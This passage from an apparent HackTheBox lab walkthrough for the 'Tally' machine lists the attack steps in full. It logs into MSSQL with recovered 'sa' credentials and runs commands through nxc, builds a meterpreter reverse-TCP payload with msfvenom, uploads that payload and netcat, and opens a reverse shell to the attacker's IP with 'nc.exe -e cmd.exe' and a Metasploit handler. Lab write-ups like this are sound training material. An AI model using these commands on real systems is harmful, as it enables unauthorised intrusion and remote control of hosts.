 It also seem like we are administrator on mssql, which means we have execution privileges. Let’s see what user we are:

```bash
nxc mssql TALLY -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x whoami

MSSQL       10.10.10.59     1433   TALLY            tally\sarah
```

We are user sarah. Let’s keep enumerating:

```bash
nxc mssql TALLY -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x whoami /priv

```

Let’s get a reverse shell now. Let’s get a meterpreter shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o rev.exe
```

Uploading the file:

```bash
nxc mssql TALLY -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth --put-file /home/kali/htb_labs/tally/rev.exe C:/Users/Sarah/Desktop/rev.exe

#we can also do the same with nc

nxc mssql TALLY -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth --put-file /home/kali/htb_labs/tally/nc64.exe C:/temp/nc.exe
```

Let’s get a connection:

```bash
nxc mssql TALLY -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x "C:\temp\nc.exe 10.10.16.7 4444 -e cmd.exe"

nxc mssql TALLY -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x "C:\Users\Sarah\Desktop\rev.exe"
```

We now have a reverse shell:

![image.png]({{ site.baseurl }}/assets/tally/image%206.png)

```bash
msfconsole
use exploit/multi/handler
set lhost tun0
set lport 4444
set payload windows/meterpreter/reverse_tcp
run
```

![image.png]({{ site.baseurl }}/assets/tally/image%207.png)

![image.png]({{ site.baseurl }}/assets/tally/image%208.png)
